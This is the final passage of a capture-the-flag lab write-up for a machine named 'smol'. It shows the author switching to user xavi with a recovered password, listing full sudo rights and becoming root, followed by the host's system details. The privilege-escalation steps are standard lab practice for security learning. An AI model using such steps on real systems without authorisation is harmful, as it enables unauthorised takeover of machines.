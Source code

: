 
Switching user to `xavi` with the password gotten and checking the sudo permissions available for this user we can see that the user `xavi` can run all commands on the following linux system which gave us the user root.

```bash
gege@smol:/home/think$ su xavi
Password: 
xavi@smol:/home/think$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:/home/think$ sudo su
root@smol:/home/think$ id
uid=0(root) gid=0(root) groups=0(root)
root@smol:/home/think$ hostnamectl
   Static hostname: smol
         Icon name: computer-vm
           Chassis: vm
        Machine ID: ea9eb57d598546619efbe004a3b2ecc6
           Boot ID: 406d59933ebb48478bf5350be106f538
    Virtualization: kvm
  Operating System: Ubuntu 20.04.6 LTS
            Kernel: Linux 5.4.0-156-generic
      Architecture: x86-64
```



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


